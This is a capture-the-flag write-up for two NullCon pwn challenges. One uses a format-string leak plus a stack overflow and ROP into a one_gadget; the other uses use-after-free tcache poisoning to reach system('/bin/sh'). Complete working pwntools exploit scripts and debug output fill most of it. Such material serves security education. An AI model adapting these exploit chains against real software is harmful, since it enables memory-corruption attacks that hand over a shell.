

# NullCon Writeup

## hateful

```bash
root@72f9eb9e3ebc:/chal/NULLCON/hateful# ./ld-linux-x86-64.so.2 --library-path . ./hateful
My Boss is EVIL!!! I hate my Boss!!! These are things you really want to say to your Boss don't you? well we can do that for you! send us the message you want to send your Boss and we will forward it to him :)

So? are you onboard? (yay/nay)
>> yay
We are pleased that you trust our service!
please provide your bosses email!
>> %p%p%p%p%p
email provided: 0x7ffeeaf30b30(nil)(nil)0x4020340x7fadc2321a80
now please provide the message!
AAAAAAAAAA
Got it! we will send the message for him later!
Well now all you have to do is wait ;)
```

We need to pop a shell for this pwn challenge. Let's directly open the binary file `hateful` with Binary Ninja to inspect the High-Level IL.



We can discover the following vulnerabilities:

* The code `printf(format: &data_4020a)` at line `0x401210`  in the `send_message` function has a format string vulnerability. The format string is directly passed to `printf` without providing other arguments, which enables us to use `%p` to print values on the stack and leak information from program memory, including register values.
* The code `void buf` and `fgets(&buf, n: 0x1000, fp: stdin)` at line `0x40128a` in the `send_message` function has a buffer overflow vulnerability. This segment declares a local variable `buf` without explicitly specifying its size, starting from `$rbp-0x3f0` in the `send_message` function stack, and a `fgets` call to read user input with a size limit of `0x1000` into the `buf`. These factors enable us to input with a size that exceeds `buf`'s actual size to overwrite return address to execute customized ROP chain.

Thus, this is obviously a challenge of buffer overflow followed by ROPping. Our idea is:

1. Use the command `gdb -q --args ./ld-linux-x86-64.so.2 --library-path . ./hateful` to debug the binary file `hateful`.

2. Make the program to call `printf("%p%p%p%p%p")` to print out five values on the stack. The pwntools debug view is as follows.

   ```bash
   please provide your bosses email!                    
   >>                                                   
   [DEBUG] Sent 0xb bytes:                              
       b'%p%p%p%p%p\n'                                  
   [DEBUG] Received 0x10 bytes:                         
       b'email provided: '                              
   email provided:                                      
   [DEBUG] Received 0x2e bytes:                         
       b'0x7fff15623200(nil)(nil)0x4020340x7fc0651eaa80'
   ```

   The gdb debug view is as follows, which shows that the first printed value is a stack address and the last printed value is a glibc address.

   ```bash
   (remote) gef➤  vmmap 0x7fff15623200
   [ Legend:  Code | Heap | Stack ]
   Start              End                Offset             Perm Path
   0x00007fff15607000 0x00007fff15628000 0x0000000000000000 rw- [stack]
   (remote) gef➤  vmmap 0x7fc0651eaa80
   [ Legend:  Code | Heap | Stack ]
   Start              End                Offset             Perm Path
   0x00007fc0651ea000 0x00007fc0651ec000 0x00000000001d2000 rw- /chal/NULLCON/hateful/libc.so.6
   ```

3. Acquire the local variable `buf` starting address through `p/x $rbp-0x3f0`. Calculate the offset between the leak stack address and  `buf` starting address, which is `0x2190`. This is used to overwrite the `__saved_rbp` in the `send_message` function stack. It should be noted that we can calculate any stack address to overwrite the `rbp` that ensures `rbp-0x38` is writable, which is one of our one_gadget constraint that must be satisfied (shown in 5).

4. Acquire the glibc base address `0x00007fc065018000` through `vmmap`. Calculate the offset between the leak glibc address and glibc base address, which is `0x1d2a80`. This is used to calculate addresses of multiple gadgets in glibc.

5. Retrieve the one_gadget from the provided glibc file. The output is as follows.

   ```bash
   root@72f9eb9e3ebc:/chal/NULLCON/hateful# one_gadget libc.so.6
   0x4c139 posix_spawn(rsp+0xc, "/bin/sh", 0, rbx, rsp+0x50, environ)
   constraints:
     address rsp+0x60 is writable
     rsp & 0xf == 0
     rax == NULL || {"sh", rax, r12, NULL} is a valid argv
     rbx == NULL || (u16)[rbx] == NULL
   
   0x4c140 posix_spawn(rsp+0xc, "/bin/sh", 0, rbx, rsp+0x50, environ)
   constraints:
     address rsp+0x60 is writable
     rsp & 0xf == 0
     rcx == NULL || {rcx, rax, r12, NULL} is a valid argv
     rbx == NULL || (u16)[rbx] == NULL
   
   0xd511f execve("/bin/sh", rbp-0x40, r13)
   constraints:
     address rbp-0x38 is writable
     rdi == NULL || {"/bin/sh", rdi, NULL} is a valid argv
     [r13] == NULL || r13 == NULL || r13 is a valid envp
   ```

   We choose `execve("/bin/sh", rbp-0x40, r13)` with an offset of `0xd511f` to be our one_gadget to pop a shell.

6. Form an ROP chain to pop a shell. This is used to overwrite from the `__return_addr` in the `send_message` function stack. According to the one_gadget constraints, `rdi` and `r13` registers have to be NULL. Our ROP chain is as follows.

   ```python
   chain = [
       glibc_r.rdi.address + glibc_base_addr,  # pop rdi; ret
       0x0,    # NULL
       glibc_r.r13.address + glibc_base_addr,  # pop r13; ret
       0x0,    # NULL
       0xd511f + glibc_base_addr  # one gadget
   ]
   ```

7. Send the payload with a `0x3f0` padding, the `rbp-0x38` writable stack address to overwrite the `__saved_rbp`, and the ROP chain using the chosen one_gadget to pop a shell. The pwntools debug view is as follows. 

   ```bash
   now please provide the message!                                                        
                                                                                          
   [DEBUG] Sent 0x421 bytes:                                                              
       00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
       *                                                                                  
       000003f0  30 64 cc 61  fc 7f 00 00  e5 c7 00 7b  5d 7f 00 00  │0d·a│····│···{│]···│
       00000400  00 00 00 00  00 00 00 00  30 e8 00 7b  5d 7f 00 00  │····│····│0··{│]···│
       00000410  00 00 00 00  00 00 00 00  1f a1 0b 7b  5d 7f 00 00  │····│····│···{│]···│
       00000420  0a                                                  │·│                  
       00000421                                                                           
   [*] Switching to interactive mode                                                      
   [DEBUG] Received 0x30 bytes:                                                           
       b'Got it! we will send the message for him later!\n'                               
   Got it! we will send the message for him later!                                        
   $ whoami                                                                               
   [DEBUG] Sent 0x7 bytes:                                                                
       b'whoami\n'                                                                        
   [DEBUG] Received 0x1b bytes:                                                           
       b'Detaching from process 512\n'                                                    
   Detaching from process 512                                                             
   [DEBUG] Received 0x5 bytes:                                                            
       b'root\n'                                                                          
   root                                                                                   
   ```

The script using Pwntools to solve the challenge is shown below.

```python
from pwn import *

context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h', '-f']

CHALLENGE = "./hateful"
p = gdb.debug(['./ld-linux-x86-64.so.2', '--library-path', '.', CHALLENGE], '''
    file hateful
    ni
    ni
    b *(send_message+111)
    b *(send_message+183)
    continue
''')

# Stage 1: Leak stack address and glibc base address
print(p.recvuntil(b">> ").decode())
payload = b"yay"
p.sendline(payload)
print(p.recvuntil(b">> ").decode())
payload = b"%p%p%p%p%p"
p.sendline(payload)
print(p.recvuntil(b"email provided: ").decode())
addrs = p.recvuntil(b"\n").decode().strip()
stack_addr = int(addrs[0:14], 16) + 0x2190
glibc_base_addr = int(addrs[-14:], 16) - 0x1d2a80
print(f"stack_addr: {hex(stack_addr)}")
print(f"glibc_base_addr: {hex(glibc_base_addr)}")

# Stage 2: Form ROP chain with one gadget and send payload
glibc_r = ROP("libc.so.6")
chain = [
    glibc_r.rdi.address + glibc_base_addr,  # pop rdi; ret
    0x0,    # NULL
    glibc_r.r13.address + glibc_base_addr,  # pop r13; ret
    0x0,    # NULL
    0xd511f + glibc_base_addr  # one gadget
]
print(p.recvuntil(b"now please provide the message!\n").decode())
payload = b"A" * 0x3f0 + p64(stack_addr) + b"".join([p64(c) for c in chain])
p.sendline(payload)

p.interactive()
```

The captured flag is `ENO{W3_4R3_50RRY_TH4T_TH3_M3554G3_W45_N0T_53NT_T0_TH3_R1GHT_3M41L}`.

## hateful2

```bash
root@72f9eb9e3ebc:/chal/NULLCON/hateful2# ./ld-linux-x86-64.so.2 --library-path . ./hateful2
          _______ _________ _______  _______           _        _______ 
|\     /|(  ___  )\__   __/(  ____ \(  ____ \|\     /|( \      / ___   )
| )   ( || (   ) |   ) (   | (    \/| (    \/| )   ( || (      \/   )  |
| (___) || (___) |   | |   | (__    | (__    | |   | || |          /   )
|  ___  ||  ___  |   | |   |  __)   |  __)   | |   | || |        _/   / 
| (   ) || (   ) |   | |   | (      | (      | |   | || |       /   _/  
| )   ( || )   ( |   | |   | (____/\| )      | (___) || (____/\(   (__/\
|/     \||/     \|   )_(   (_______/|/       (_______)(_______/\_______/

Welcome to our improved service edition HATEFUL2!

[+] After we have receives positive feedback of all our customers
we updated our service to make it even easier for you to use! (but also because we saw sus behaivors)

To access our service now just use the MENU!
0. What do we do?
1. Add Message
2. Edit Message
3. View Message
4. Remove Message
5. Leave
>> 
```

We need to pop a shell for this pwn challenge. Let's directly open the binary file `hateful2` with Binary Ninja to inspect the High-Level IL.


We can discover the following functions (screenshot omitted):
* `add_message`: Take an index and a size of a message to add. Based on the input message size, allocate memory and read input message text.
* `edit_message`: Take in an index of a message to edit. If it's valid, allow editing usable size of the previous allocated memory.
* `view_message`: Take in an index of a message to view. If it's valid, print out the message text.
* `remove_message`: Take in an index of a message to remove. If it's valid, simply free the pointer but no pointer nulling.

Thus, due to the UAF vulnerability, this is obviously a challenge of tcache poisoning on safe-linking heap followed by ROPping. Our idea is:

1. Add a large message A (at index 0) (heap chunk of size 0x420), followed by a small message B (at index 1) (heap chunk of size 0x20), which is a guard allocation to avoid consolidating big allocations together, then remove and view the large message A (at index 0) to apply the unsorted bin pointer leak of a glibc address (both fw (forward) and bk (back) pointers point to a glibc address). Calculate the glibc base address by ` (leaked & ~0xfff) - 0x1d2000` then and the addresses of `system`, `/bin/sh`, and `environ` for further use.
2. Remove the small message B (at index 1), after which the tcache is "B". At this time, the tcache is empty. View the small message B (at index 1) to get a UAF leak of the protected forward pointer of the small message B (the last chunk in tcache), and reveal the heap base address by `((leaked << 12) ^ 0) & ~0xfff`. The heap base address can be used to calculate any chunk's position that we want to poison.
3. In preparation for the first tcache poisoning, add another large message C (at index 2) (heap chunk of size 0x420) to exhaust the unsorted bin, followed by two small messages D (at index 3) and E (at index 4) (heap chunk of size 0x20), and then remove the small message D (at index 3) and message E (at index 4). At this time, the tcache is "E -> D".
4. Perform the first tcache poisoning:
    * Make use of UAF, editing message E with (at index 4) `((heap_base_addr + 0x6e0) >> 12) ^ (glibc_environ_addr - 0x10)`. Safe-Linking must be considered and 0x10 bytes alignment must be satisfied for `malloc`. At this time, the tcache is "E -> (glibc_environ_addr - 0x10)". The setting of `glibc_environ_addr - 0x10` enables the over-print the stack address in `environ` as a string later.
    * Add a small message F (at index 5) (heap chunk of size 0x20). At this time, the tcache is "glibc_environ_addr - 0x10".
    * Add a small message G (at index 6) (heap chunk of size 0x20) with 0x10 bytes of arbitrary content, stored starting from `glibc_environ_addr - 0x10`, overflowing the prefix 0x10 bytes before `glibc_environ_addr`, which ensures the over-print the stack address in environ as a string later. At this time, the tcache is empty.
    * View the small message G (at index 6) to get a leak of the stack address in `environ` (over-print it out as string).
    * Calculate the return address of `add_message` for ROPping by `stack_addr_in_environ - 0x140`. The offset `0x140` is calculated by `p/x (long)environ - ((long)$rbp + 8)`.
5. In preparation for the second tcache poisoning, add two small messages H (at index 7) and I (at index 8) (heap chunk of size 0x40), and then remove the small message H (at index 7) and message I (at index 8). At this time, the tcache is "I -> H".
6. Perform the second tcache poisoning:
    * Make use of UAF, editing message I (at index 8) with `((heap_base_addr + 0x740) >> 12) ^ (add_message_return_addr - 0x8)`. Safe-Linking must be considered and 0x10 bytes alignment must be satisfied for `malloc`. At this time, the tcache is "I -> (add_message_return_addr - 0x8)".
    * Add a small message J (at index 9) (heap chunk of size 0x40) with arbitrary content. At this time, the tcache is "(add_message_return_addr - 0x8)".
7. Form a simple shell-popping ROP chain and add a small message K (at index 10) (heap chunk of size 0x40) with the content of the ROP chain with a 0x8 bytes of padding prefix (pass saved rbp). In this way, the tcache is empty and the ROP chain will be stored at the return address of `add_message`. When exiting `add_message`, the ROP chain will be hit and a shell will be popped.

The script using Pwntools to solve the challenge is shown below.

```python
from pwn import *

context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h', '-f']

CHALLENGE = "./hateful2"
p = gdb.debug(['./ld-linux-x86-64.so.2', '--library-path', '.', CHALLENGE], '''
    file hateful2
    ni
    ni
    b *(main+197)
    b *(main+209)      
    b *(main+221)
    b *(main+233)                    
    continue
''')

def add_message(index, size, text):
    print(p.recvuntil(b">> ").decode())
    p.send(b"1\n")
    print(p.recvuntil(b"Message Index: ").decode())
    p.send(str(index).encode() + b"\n")
    print(p.recvuntil(b"Message Size: ").decode())
    p.send(str(size).encode() + b"\n")
    print(p.recvuntil(b">> ").decode())
    p.send(text)
    print(p.recvuntil(b"Message Created!\n").decode())
    log.info(f"Adding message at index: {index} with size: {size} and text: {text}")

def edit_message(index, text):
    print(p.recvuntil(b">> ").decode())
    p.send(b"2\n")
    print(p.recvuntil(b"Message Index: ").decode())
    p.send(str(index).encode() + b"\n")
    print(p.recvuntil(b">> ").decode())
    p.send(text)
    print(p.recvuntil(b"Message Updated!\n").decode())
    log.info(f"Edting message at index: {index} with text: {text}")

def view_message(index):
    print(p.recvuntil(b">> ").decode())
    p.send(b"3\n")
    print(p.recvuntil(b"Message Index: ").decode())
    p.send(str(index).encode() + b"\n")
    print(p.recvuntil(b"Message: ").decode())
    log.info(f"Viewing message at index: {index}")
    return p.recvuntil(b"\n\n").strip()

def remove_message(index):
    print(p.recvuntil(b">> ").decode())
    p.send(b"4\n")
    print(p.recvuntil(b"Message Index: ").decode())
    p.send(str(index).encode() + b"\n")
    print(p.recvuntil(b"Message Deleted!\n").decode())
    log.info(f"Removing message at index: {index}")

# Stage 1: Leak glibc base address and calculate required glibc addresses
add_message(0, 0x410+1, b"A"*0x410)
add_message(1, 0x8+1, b"B"*0x8)
remove_message(0)
glibc_base_addr = (u64(view_message(0)[0:6].ljust(8, b"\x00")) & ~0xfff) - 0x1d2000
log.info(f"Leaking glibc base address: {hex(glibc_base_addr)}")
e = ELF("libc.so.6")
glibc_system_addr = glibc_base_addr + e.symbols.system
glibc_binsh_addr = glibc_base_addr + next(e.search(b"/bin/sh"))
glibc_environ_addr = glibc_base_addr + e.symbols.environ

# Stage 2: Leak heap base address
remove_message(1)
heap_base_addr = ((u64(view_message(1)[0:5].ljust(8, b"\x00")) << 12) ^ 0) & ~0xfff
log.info(f"Leaking heap base address: {hex(heap_base_addr)}")

# Stage 3: Prepare for the first tcache poisoning
add_message(2, 0x410+1, b"C"*0x410)
add_message(3, 0x8+1, b"D"*0x8)
add_message(4, 0x8+1, b"E"*0x8)
remove_message(3)
remove_message(4)

# Stage 4: Perform the first tcache poisoning to leak stack address in environ and calculate return address of create
edit_message(4, p64(((heap_base_addr + 0x6e0) >> 12) ^ (glibc_environ_addr - 0x10)))
add_message(5, 0x8+1, b"F"*0x8)
add_message(6, 0x10+1, b"G"*0x10)
stack_addr_in_environ = u64(view_message(6)[0x10:0x10+6].ljust(8, b"\x00"))
log.info(f"Leaking stack address in environ: {hex(stack_addr_in_environ)}")
add_message_return_addr = stack_addr_in_environ - 0x140

# Stage 5: Prepare for the second tcache poisoning
add_message(7, 0x28+1, b"H"*0x28)
add_message(8, 0x28+1, b"I"*0x28)
remove_message(7)
remove_message(8)

# Stage 6: Perform the second tcache poisoning
edit_message(8, p64(((heap_base_addr + 0x740) >> 12) ^ (add_message_return_addr - 0x8)))
add_message(9, 0x28+1, b"J"*0x28)

# Stage 7: Form and deploy ROP chain by calling create
r = ROP("libc.so.6")
chain = [
    r.rdi.address + glibc_base_addr,
    glibc_binsh_addr,
    r.ret.address + glibc_base_addr,
    glibc_system_addr
]
add_message(10, 0x28+1, b"K"*0x8 + b"".join([p64(addr) for addr in chain]))

p.interactive()
```

The captured flag is `ENO{W3_4R3_50RRY_4G41N_TH4T_TH3_M3554G3_W45_N0T_53NT_T0_TH3_R1GHT_3M41L}`.

